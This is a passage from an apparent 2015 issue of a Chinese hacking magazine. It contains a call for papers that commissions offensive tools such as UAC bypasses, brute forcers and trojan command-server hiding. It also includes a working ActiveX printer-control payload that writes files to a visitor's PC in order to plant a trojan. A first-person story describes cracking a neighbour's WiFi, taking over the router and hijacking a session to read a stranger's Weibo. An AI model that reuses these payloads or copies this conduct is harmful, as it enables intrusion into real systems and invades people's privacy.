语音的传输过程采用 UDP 协议，保证双方能够快速传输数据。首先将要传输的数据（已加密）保存到 Buffer，再取出 Buffer 内的数据将其转化为二进制存储在二进制数组 data 里，以 data 和一些参数实例化 `datagramPacket`，最后通过套接字发送 `datagramPacket` 以达到数据传输的效果。

通过以上五个主要步骤，能够有效地保证通信双方语音的安全性。

本文所述系统综合运用密码学（加解密）、计算机（Android 平台开发）和网络通信（Wi-Fi 通信等）理论与技术，设计并实现了一种在公网环境下的安全语音通信系统。该系统在每次通话之前，通信双方均需手动输入通信的 AES 密钥，并透明地比较通信双方所输 AES 密钥以确定最终的通信密钥；密钥确定完成之后，系统自动、透明地利用确定的 AES 密钥对用户语音信息进行实时加密保护，保证了用户通信过程的私密性。本文所述系统研发过程中，充分考虑了研究热点和发展趋势，选取目前在国内外移动互联市场占有率最高的 Android 移动智能终端为平台进行开发，并针对目前国家高度重视的保密问题展开研究，具有良好的应用价值和市场前景。

（完）

### 2015 年第 1 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 2 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

#### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

#### 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

#### 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 Gmail、Yahoo 信箱。

#### 4. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

#### 5. 暴力破解 3389 远程桌面密码

要求：

- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

#### 6. Web 服务器批量扫描破解

- 1) 针对目标 IP 参数要求  
  - 10.10.0.0/16  
  - 10.10.3.0/24  
  - 10.10.1.0-10.255.255.255
- 2) 针对目标 Web 服务器扫描要求  
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等（后文未完整显示）。

具体参考如下：

- Tomcat
- Weblogic
- JBoss
- Apache
- JOnAS
- WebSphere
- Lotus Server
- IIS(Webdav)
- Axis2
- ColdFusion
- Monkey HTTPD
- Nginx

- 3) 针对目标 Web 服务器后台扫描  
  - 针对目标进行后台地址搜索。
- 4) 针对目标 Web 后台密码破解  
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

#### 7. 木马控制端 IP 地址隐藏

要求：

- 1) 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

#### 8. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 1) 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2) 根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3) 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4) 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd 以及 abcd、abcd123 或 abcd、abcd123456 等简单账号密码；
- 5) 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

#### 9. 编写端口扫描器

要求：

- 1) 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2) 扫描方式采用多线程，并能设置线程数；
- 3) 将功能编写成 DLL，导出功能函数；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5) 尽量多做出错异常处理，以防程序意外崩溃；
- 6) 使用 VC++2008 编译工具编写；
- 7) 支持系统 Windows XP/2003/2008/7。

#### 10. Android WiFi Tether 数据转储劫持

说明：

WiFi Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WiFi Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1) 开启 WiFi 热点后，对流经本机的所有网络数据进行存储；
- 2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3) 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

#### 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1) Windows UAC 安全设置为最高级别；
- 2) 系统补丁打到最新；
- 3) 支持 32 位和 64 位系统。

## 2015 年征稿启示

《黑客防线》作为一本技术月刊，已经 15 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

#### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

#### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

#### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

#### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

#### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

#### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

#### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

#### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

#### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号、以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：

| 等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

# 黑客防线

2  
总第 170 期  
2015

网站全新改版，欢迎访问：http://www.hacker.com.cn



- Python 打造网络渗透工具
- 小心！我把木马打印在你的电脑上
- 编写 ShellCode 注入程序
- 入侵 WiFi 路由器
- UAF 本质论之漏洞是怎么形成的
- 自定义证书 Android 实现 HTTPS 通信

## 《黑客防线》2 期文章目录

总第 170 期 2015 年

#### 漏洞攻防

- UAF 本质论之漏洞是怎么形成的（木羊）……3
- 小心！我把木马打印在你的电脑上（爱无言）……5
- 入侵 WiFi 路由器（黄澄 马智超）……8
- Shopex4.85 CMS 获取后台 Webshell（simeon）……11

#### 编程解析

- 编写 ShellCode 注入程序（light）……16
- Python 打造网络渗透工具（黄澄 马智超）……20
- 基于虚拟机的软件保护技术（木羊）……26

#### 密界寻踪

- 抽丝剥茧：巧用逆向分析破解未注册软件（贾志明）……31

#### Android 远程监控技术

- 自定义证书 Android 实现 HTTPS 通信（耿靓）……39
- 2015 年第 2 期杂志特约选题征稿……44
- 2015 年征稿启示……47

### UAF 本质论之漏洞是怎么形成的

文／木羊

UAF（Use-After-Free）类型的漏洞已经写了几期文章了，上一篇《UAF 本质论》本意想作为点睛一笔，就此结束这个研究专题。没想到这篇小文居然得到一些挖洞大牛的关注，这让我觉得有点小意外和小得意，也听到了一些不赞同的声音，这让我发现虽然上篇只是一个系列的结尾，但当然不能强求每位同学都把整个系列读完，于是不能不把某些问题说透点明，这里还是以同一题目进行补充。

在上一篇文章里，我提出 UAF 类型漏洞的本质就是悬空指针的观点，但毕竟 UAF 是现在最火热的漏洞类型之一，特别是 IE，几乎一多半都为 UAF，成因居然被我归结为编程初学者最常犯的毛病，有些同学表示无论如何也不肯赞同。谦逊是一种美德，不过那是做人，我个人认为做学术是不得谦逊的，该坚持的还得坚持。后面我将分两部分说说我的观点，欢迎继续炮轰。

本文是第一部分，先来谈谈漏洞的成因。这一次我们的视野更广阔一点，考察的对象不仅限于 UAF，而是所有漏洞。我收集了近年的一些知名漏洞，经过整理分析，发现成因大致可以分为两类，一种为人为漏洞，一种为逻辑漏洞。第一种人为漏洞，是最常见的，也是最难接受的，说白了就是犯了本不该犯的低级错误，简称手抖。就以这两天非常火的幽灵漏洞来说吧。幽灵漏洞，CVE 漏洞编号为 CVE-2015-0235，影响了 GNU glibc 库的 gethostbyname 函数。就算不了解这个漏洞造成多大影响，了解网络编程的同学，也该知道 gethostbyname 函数是个多么底层多么常用的函数，考虑到这些，应该能大致猜想这个漏洞的严重性了。但这个漏洞的成因，概括来说就是在进行某次 strcpy 操作之前，确定大小时漏写了一个指针变量，于是导致缓冲区溢出。不知道别人的感觉，反正我看到 gethostbyname 函数爆出漏洞的第一感觉是非常震惊，但知道成因后却哑然失笑。太讽刺了对不对，影响面如此大的漏洞，起因竟如此低级，根本就是手抖了一下犯的错误。俗话说，功夫再高也怕菜刀，系统的安全性遵循木桶原理，再牛的系统，也永远是最低的那块木板决定了安全的水平。

对于这个问题，我想再多说一点。我们都觉得能进大企业大公司，譬如微软公司，水平尤其编程水平一定特别高，至少异于常人，于是连如何解微软的面试题目也有人专门出了一本书，还卖得特别火爆。可为什么微软家爆的漏洞也高得异于常人呢？我想，除了处于关注焦点之中外，还有一个重要原因，就是上面提到的木桶原理。这里，指的是人的木桶原理。开始挣血汗钱的码农们应该都有体会，就算是同一个人，在不同的心境、环境甚至同一天的不同时间，写代码的水平都会有波动，是不是十一点后达到峰值我不好下定论，但肯定再热爱这个行业的同学每个月也会有那么几天想要砸了屏幕、逃出工位来一场说走就走的旅行。编程高手也是一样，产出低质甚至“弱智”的代码也不足为奇。当然了，低级错误还要通过一系列工业化检测最终流入成品中是一个概率极低的事件，但 IT 产品大爆炸必须依靠数以亿计的代码作为支撑，分母足够大了就算概率再小，分子也就是劣质代码量也会变得相当可观。再加上现在安全研究资源的增加和成长，所谓攻人之短，劣质代码引发的漏洞占了大头也实在不必大惊小怪了。其中就有一种叫指针悬空。

第二种逻辑漏洞，这个概念非常广，要讲清楚也不容易。如果说第一种漏洞是攻人之短，第二种漏洞就是以己之长了。早前有大牛称之为跨维攻击，袁哥提出的 DVE 技术，据说思路就是跨维攻击，用虚拟 CPU 执行 exp，无论物理 CPU 加多少 DEP、防堵如何严密，只要将执行流转入虚拟 CPU，就如入无人之境。什么叫跨维呢，大牛没多解释，我的理解是：出其不意。不意，就是没有意料到的意思，不是因为疏忽也不是因为疲惫，而是根本想不到竟会在这个地方翻船了。首先要说明的是，无论信息安全的教科书或者论文集有多么厚实，实际上任何一套安全措施都是基于一些假设——也就是可能出现的攻击方向——建立而成的。因此，一旦这些假设并不是可能出现的攻击方向的全集，就可能出现跨维的漏洞了。

说得比较绕口，举个例子，《三国演义》里面特别喜欢用夜袭表示出其不意，为什么呢？因为根据那时的技术条件，军事行动通常只能在日间进行，也就是假设攻防对抗只发生在日间，太阳落山以后就不设防了，于是一旦被夜袭自然就要送人头了。

有同学可能会说，这是因为那些将领太蠢没想到罢了。那好，再举一个聪明人的例子。毕达哥拉斯学派是数学史上非常有名的学派，就算不代表当时数学界最高水平也是之一。这个学派提出一个假设，就是任何一个数都可以表示成两个整数之比（也即有理数）。请注意，这意味着当时数学界都假设所有数都是有理数，但实际上呢，当然不是，有理数并不是数的全集，外头还有无理数，这就使假设出现了漏洞。毕达哥拉斯对这个漏洞处置相当简单粗暴：他把发现者扔进海里喂鱼了。肯定有同学觉得这个场景离现在太远，其实不远，想想看，多少漏洞平台都有过“厂家认为不是漏洞”的回复，翻译过来就是，（厂家）我看到了，我也知道了，但经过我的逻辑思考后，并不认为这是漏洞。一般的解释是各方对安全的理解，或者称为假设，各有不同。但只要真的能被利用，那么厂家总是要吃上一些真金白银的亏，然后还得承认自己的逻辑假设是有误的。

我特别想找一个有 CVE 编号的漏洞来具体说明，可是发现这很困难，这种逻辑漏洞更常见的表现形式其实是漏洞利用方法，也就是想出一种方法，让某个原本认为是正常、至多只是“有问题”，可能导致功能故障的代码变成漏洞。难就难在，不知道这个利用方法之前，这些代码都是“正常”代码，但一旦知道，就立即成了“漏洞”，而很难体现这个“变成”的过程。非要举一个例子的话，我选择去年十分火爆的 Heartbleed 漏洞，CVE 编号 CVE-2014-0160。这个漏洞大概可以概括为构造一个 OpenSSL 请求包让 memcpy 函数把 SSLv3 记录之后的数据直接输出。当然，出现问题的 d1_both.c 文件存在一点点判断问题，不过，能将这“一点点判断问题”和“输出用户密码”联系起来，使之成为重大安全隐患，绝对是一记神笔。大牛们常说，漏洞挖掘重在“猥琐”，这话说得懂的人都懂，不懂的人还是不懂，很玄妙。现在好一点了，大概可以将“猥琐”翻译为“开脑洞”，把看似不可能有关联的问题关联起来。这里再点一点题，就是想方设法突破固有的安全假设，找到一个让假设不成立的实例，让厂方的逻辑假设和现实冲突，最终突破之。

上面部分不知可否算漏洞挖掘的战略问题？下一篇文章，我想要谈谈战术了。

### 小心！我把木马打印在你的电脑上

文/图 爱无言

对于现代社会来说，网络办公系统、教育网系统、企业内部管理系统等等网络系统都会带有网络打印功能，这种功能的提供在技术实现上一般会采用浏览器控件的方式，因为以上诸多网络系统多采用 B/S 模式，处于用户端的使用界面就是浏览器，而浏览器要支持复杂的打印功能就需要采用 ActiveX 控件的模式。但是，在享受这些控件提供的丰富功能时，安全问题往往被我们忽略。在对多个单位内部的网络系统进行安全测试时，我们发现了关于打印控件的严重安全隐患，甚至借助这些打印控件直接可以部署恶意程序到网内任意终端，危害极大。这里我们选择了国内排行靠前的两个打印控件作为测试对象，向大家展示一下木马是如何被“打印”在你的电脑上的。

首先测试的对象是 Lodop 控件，它是泰安梦泰尔软件有限公司开发的一款打印控件，这里测试的版本为 6.1.9.4。在系统中安装好该控件后，它会注册多个接口，其中有一个名为“IS_FILE_EXIST”的接口，从字面上我们可以直接判断该接口的用处就是用来判断当前主机本地磁盘上是否存在某个文件。这类接口出现在很多打印控件上，其目的多半都是为了判断被打印文件的存在或者系统文件的存在。但是从安全角度出发，我们完全可以利用该接口判定用户主机上的敏感文件存在，甚至利用这种判断，判定该用户主机的操作系统版本。它的判断效果如图 1 所示。



图 1

如果说这种文件判定式的安全问题还不算什么，那么 Lodop 控件为我们又带来了更加有趣的接口——GET_SYSTEM_INFO。毫无疑问，这是一个用来获取客户主机信息的接口，它实现出来的效果会是什么呢？如图 2 所示。


图 2

令人吃惊的画面不是吗？我主机上的磁盘盘符数量、硬盘序列号、MAC 地址等等都被成功读取！现在我想问：我还有啥你不知道的？

虽然说 Lodop 控件出现了以上的安全问题，但是这还不是严重的。下面出场的这个打印控件就会给我们带来惊喜！

JatoolsPrinter 又被叫做“杰表”打印控件，如图 3 所示。


图 3

它提供的接口很多，其中我们最为关注的是一个名为“logPage”的接口，如图 4 所示。


图 4

“logPage”有两个参数：path 和 html，看起来这两个参数的作用应该是将 html 写入 path。写一个测试页面来看看，代码如下所示：

```html
<object classid="clsid:B43D3361-D075-4BE2-87FE-057188254255" id=evil></object>
<script>
evil.logPage("c:\\1.bat","cmd")
</script>
```

将上述代码保存为 index.html，放置在 Web 服务器上，远程打开该测试页面，惊喜的事情终于发生了！如图 5 所示。


图 5

图 5 中最后一行的 1.bat 文件是被我们所打开的 index.html 文件创建的，准确地说应该是由 JatoolsPrinter 控件的“logPage”接口创建，因此我们可以直接利用“logPage”接口将命令代码写入用户主机的开机启动目录，当然也可以利用批处理写入二进制数据，一步一步将木马病毒程序远程植入用户主机，最终获取到远程管理权限。

在测试过程中，我们发现打印控件在设计上都存在雷同的地方，例如对本地文件的读取或者写入，只是有一些控件会提示用户是不是允许这种操作，而多数控件都采用静默处理，这就使得安全漏洞得以出现。信息泄露加上文件写入，这就可以让恶意攻击者非常轻松地渗透进入用户的主机，打印控件在提供打印功能的同时，是不是也应该防止把木马病毒“打印”在用户主机上呢？

最后，本文旨在讨论安全技术，请不要利用本文中提到的安全技术进行任何违法行为，作者和杂志概不负责。

## 入侵 WIFI 路由器

文/图 黄澄 马智超（DesertEagle）

凌晨，稍有困意，家里的无线共享已经被老爸关闭。打开笔记本，发现附近还有很多无线路由器和无线共享信号，但信号都很弱，于是我想了一些办法（此处略去）提高了一点信号强度，如图 1 所示。


图 1

接下来开始进行 WIFI 密码破解，虚拟机里有 BT、CDlinux，里面有很多种工具。奶瓶这类软件也都在虚拟机里安装着，虚拟机里要进行无线密码破解需要无线网卡，那么问题来了，网卡在另一个屋里放着，只能另寻他路。想到手机上曾经安装了 WIFI 密码破解工具（就是黑客防线曾经一篇文章里提到的，这里不截图了），马上开始自定义规则，用木头字典生成器生成字典，然后对其无线密码进行暴力破解，速度很慢。经过了 20 分钟左右，WIFI 密码得以破解，弱密码漏洞，悄悄蹭网。

由 NetCore 其名知道使用的是磊科路由器，我想进一步入侵路由器 Web 控制端，出于对磊科路由器已有漏洞的掌握，对其漏洞还进行了测试。测试未果后，只能尝试对其 Web 管理端的用户名、密码进行暴力破解。将常用的用户名密码数据写入字典，对路由器 Web 管理端的用户名和密码进行暴力破解也是一种思路，这里介绍一款路由器辅助攻击工具，如图 2 所示。


图 2

但这个不用爆破，试了试磊科路由器默认的用户名密码，结果就进去了！成功登录管理端后，可以看到 PPPOE 的账号密码、无线共享的用户名密码，在其上可以开启远程 Web 管理，可以看到其 MAC 地址等，当然我们可以修改 WIFI 密码，可以进行很多无节操邪恶的操作，如图 3 所示。


图 3

进入主机监控，可以看到其他人的主机上下行速度，在管理界面上可以限制他人上网。看到这个界面本来想进行数据嗅探，但是发现现在有大流量数据通信的主机是我的平板电脑，那就明天早晨再嗅探测试了，如图 4 所示。

| 序号 | IP地址       | 连接数 | 上行  | 下行   | 上行流量 | 下行流量 | 在线时长       | 操作 |
|---|---|---:|---:|---:|---:|---:|---|---|
| 2 | 192.168.1.4  | 14 | 0    | 0     | 6.10M   | 184.49M | 5小时10分20秒  | 限制 |
| 3 | 192.168.1.7  | 1  | 0    | 0     | 1.11M   | 11.42M  | 9小时22分41秒  | 限制 |
| 4 | 192.168.1.11 | 95 | 2.71K| 12.80K| 107.13K | 792.86K | 37秒          | 限制 |
| 5 | 192.168.1.12 | 15 | 0    | 0     | 21.25M  | 97.94M  | 11小时28分40秒 | 限制 |
| 6 | 192.168.1.29 | 6  | 0    | 0     | 324.18M | 571.51M | 4小时2分23秒   | 限制 |

图 4

看到这里突然想到，Netcore 系列路由器中存在一个后门，进入后门的口令被“硬加密”写入到设备的固件中，而且所有的口令似乎都一样，攻击者可以轻易地利用这个口令登录路由器。我们只需要判断该 IP 地址有没有 UDP 端口 53413，如果有则存在该漏洞，不过貌似这种固件漏洞已经都修补了吧，反正对这个路由器测试过是已经修补了的。

我们还可以开启 FTP 私有端口，如图 5 所示。


图 5

第二天上午再次连入同一局域网，准备进行数据嗅探和会话劫持攻击，看能否获取到什么有用的信息，用同样的密码连了上去，进入路由器 Web 管理端，发现大流量主机。于是打开手机软件，进行局域网 IP 扫描，如图 6 所示。


图 6

找到流量略大的主机 IP 进行会话劫持，等了一小会，抓取了很多数据，如图 7 所示。


图 7

看到有用的信息了，点击链接进去，如图 8 所示，这个就是附近邻居的新浪微博了，我们可以查看到其个人信息。除此以外，还可以获得其很多信息，这里就不截图了。


图 8

经过这个测试，我们看到很多人都还缺少信息安全意识，简单的密码设置，默认的密码不修改，常见软件的不升级，系统的漏洞不修补，缺少对暴力破解攻击的防范，缺少对会话劫持攻击的防范等等，此类错误还有很多，这里就顺便说一下对会话劫持攻击的防范吧。

- 1、监视网络流量，如发现网络中出现大量的 ACK 包，则有可能已被进行了会话劫持攻击，此时发出警报。
- 2、登录到基于会话连接的服务时要谨慎小心，仔细观察异常情况，注意上次登录时间以确保安全。
- 3、如果是家庭网络，保证内网安全，经常检查 WIFI 连接情况。

现在很多人利用黑客工具动动手指头，就能进行黑客攻击，获取到大量的隐私信息，我们需要提高信息安全意识，在攻与防的技术研究中更好地保护隐私。

## Shopex4.85 CMS 获取后台 Webshell

文/图 simeon

Shopex（上海商派网络科技有限公司的简称）成立于 2002 年，是中国电子商务技术及服务提供商，主要向市场提供 PC 端、移动端和线下的软件系统及相关服务。阿里巴巴、联想和贝塔斯曼对其进行了投资，其开发的 **shopex cms** 是一款独立电子商务软件系统，依托 SaaS 理念（是 Software-as-a-Service，软件即服务的简称），软件本身免费提供，企业可以利用其快速建立独立电子商务平台，从而拥有独立的域名、独立的客户系统、独立的业务数据和业务体系，Shopex 是国内市场占有率最高的网店软件。在渗透过程中碰到一个目标系统安装了安全狗防护系统，因此才有了对 Shopex 系统渗透的研究。研究结果表明，只有获取管理员密码的情况下，才能比较容易获取 Webshell。

#### 搭建测试平台

- 1）下载源代码绕过短信验证漏洞

本次渗透需要下载 shopex4.8.5 版本，官方需要提供手机号码进行短信验证，然后给出下载地址，而我等屌丝不愿意将手机号码泄漏，只好想办法，通过研究发现其下载访问地址隐藏在网页文件中，通过访问地址：

```
http://www2.shopex.cn/customer-download.html?target_name=RUNTaG9wJUU1JTg1JThEJUU4JUI0JUI5JUU0JUJEJTkzJUU5JUFBJThDJUU0JUI4JThCJUU4JUJEJUJEJTI4VVRGLTgIMjk=&referer_url=aHR0cCUzQSUyRiUyRnd3dy5IY3Nob3AuY29t&product_cat_p=1003&product_cat_c=1016&clues_source_p=1009&clues_source_c=1033&target_download=aHR0cCUzQSUyRiUyRmRvd25sb2FkLmVjc2hvcC5jb20IMkYyLjcuMyUyRkVDU2hvcF9WMi43LjNfVVRGOF9yZWxlYXNlMTEwNi5yYXI=&encode=true
```

使用 Google 浏览器 Chrome 审查元素，使用 Ctrl+F 键搜索 download 即可获取下载地址。如图 1 所示，其地址 `http://click.shopex.cn/free_click.php?id=107` 即为下载 shopex-single-4.8.5.82977.zip 地址。同理，其它 CMS 源代码也可以通过这个方法下载。


> 图 1 获取 shopex 下载地址

- 2）安装 php+mysql+apache 环境

